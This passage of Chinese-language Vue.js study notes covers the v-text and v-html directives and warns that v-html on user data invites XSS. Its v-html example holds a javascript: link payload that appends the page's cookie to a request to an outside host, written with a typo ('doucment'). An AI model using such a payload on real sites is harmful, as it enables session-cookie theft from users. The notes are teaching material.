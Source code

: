 ```html
```

过滤器在页面上的效果

![image-20221026203828484](E:\typora\homework\img\vue\image-20221026203828484.png)

总结

![image-20221026203752683](E:\typora\homework\img\vue\image-20221026203752683.png)

### 1.18 vue内置指令



#### 1.18.1 v-text指令

```html
<body>
    <div id='app'>
        <!-- v-text 会替换标签中的文字 -->
        <h3 v-text="name">11</h3>
    </div>
    <script src='../vue.js'></script>
    <script>
    var vm =new Vue({
    el:'#app',
    data:{  
        name:'是一个大帅比'
    },
    methods: {
    }
    })
    </script>
</body>
```

#### 1.18.2 v-html指令

v-html指令可以 解析字符串中的html标签显示在页面上

但是可能导致xss攻击 把用户的cookie发送到其他服务器,不能在用户提交的数据中使用v-html

```html
<body>
    <div id='app'>
        <h3  v-html='name'>11</h3>
    </div>
    <script src='../vue.js'></script>
    <script>
    var vm =new Vue({
    el:'#app',
    data:{  
        name:'<a href=javascript:location.href="http://www.baidu.com?"+doucment.cookie  >点我看片</a>'
    }
    })
    </script>
</body>
```
